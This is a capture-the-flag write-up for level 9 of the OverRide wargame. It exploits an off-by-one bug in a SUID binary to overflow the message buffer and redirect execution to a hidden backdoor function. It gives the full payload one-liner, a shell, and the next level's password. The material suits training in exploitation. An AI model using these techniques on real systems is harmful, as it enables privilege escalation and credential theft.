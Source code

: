 # Level 9

## Vulnerability

Off-by-one error

## Context

We find a binary with owner ```end``` and SUID.
```
level09@OverRide:~$ ls -l
-rwsr-s---+ 1 end users 12959 Oct  2  2016 level09
```

When run it prompts user for a username, and a message which is supposedly sent to *Unix-Dude*.
```
level09@OverRide:~$ ./level09
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: Drew
>: Welcome, Drew
>: Msg @Unix-Dude
>>: Dear Unix-Dude, lots of love, Drew
>: Msg sent!
level09@OverRide:~$
```

See [disassembly notes](https://github.com/anyashuka/Override/blob/main/level09/Ressources/disassembly_notes.md) for detailed gdb assembly breakdown.

## Solution

### Overview

The binary simply prompts for, then copies, username and a message.

Investigating with gdb we find a hidden function ```secret_backdoor()```, which reads to a buffer from stdin, then calls ```system()``` with the buffer. Obviously we would like to jump to ```secret_backdoor()``` somehow, and enter ```/bin/sh``` on stdin, to open a shell.

### Off-by-one error

The copy username loop has an off-by-one error, which allows the user to overwrite the ```len_message``` variable by one byte.

A larger ```len_message``` than the default 140 can cause strncpy to overflow the buffer when copying the *Msg*.

So let's fill the 40 byte username buffer then overflow by 1 byte into ```len_message```, writing the maximum 1 byte value ```0xff```.
```
level09@OverRide:~$ (python -c 'print "A" * 40 + "\xff"'; cat) | ./level09
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�>: Msg @Unix-Dude

>>: >: Msg sent!

Segmentation fault (core dumped)
```
Great, its segfaults.

### Find RSP offset

Can we overflow and overwrite the return address with the address of ```secret_backdoor()```?

Since the binary was compiled in 64-bit, RSP (not EIP) is the return address register.

[Using this buffer overflow pattern generator](https://wiremask.eu/tools/buffer-overflow-pattern-generator/?) and the following example in gdb, we find we start to overwrite RSP after 200 bytes.
```
level09@OverRide:~$ gdb -q level09
...
(gdb) run
Starting program: /home/users/level09/level09
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�
>: Welcome, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�>: Msg @Unix-Dude
>>: Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah
>: Msg sent!

Program received signal SIGSEGV, Segmentation fault.
0x0000555555554931 in handle_msg ()
(gdb) x/s $rsp                                              // RSP return address
0x7fffffffe588:	 "6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah"  // We find this string in the pattern string above after 200 characters
```

### Find secret_backdoor address

Finally we need to find the address of ```secret_backdoor()```.
```
(gdb) print secret_backdoor
$1 = {<text variable, no debug info>} 0x55555555488c <secret_backdoor>
```

### Build exploit

So we build our exploit:
1. 40 byte username buffer, until overflow ```len``` - ```"A" * 40```
2. 1 byte, max value, overwrite ```len``` - ```\xff```
3. new line, enter unsername - ```\n```
4. 200 byte msg buffer, until overflow RSP - ```"A" * 200```
5. overwrite RSP with address of ```secret_backdoor()``` - ```\x8c\x48\x55\x55\x55\x55\x00```
6. new line, enter msg - ```\n```
7. system() open shell command - ```/bin/sh```

Let's pipe that into the binary stdin.
```
level09@OverRide:~$ (python -c 'print "A" * 40 + "\xff" + "\n" + "A" * 200 + "\x8c\x48\x55\x55\x55\x55\x00" + "\n" + "/bin/sh"'; cat) | ./level09
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�>: Msg @Unix-Dude
>>: >: Msg sent!
whoami
end
cat /home/users/end/.pass
j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE
```

## End

Let's log in to user ```end```.
```
level09@OverRide:~$ su end
Password: j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE
end@OverRide:~$ ls
end
end@OverRide:~$ cat end
GG !
```
Good Game !
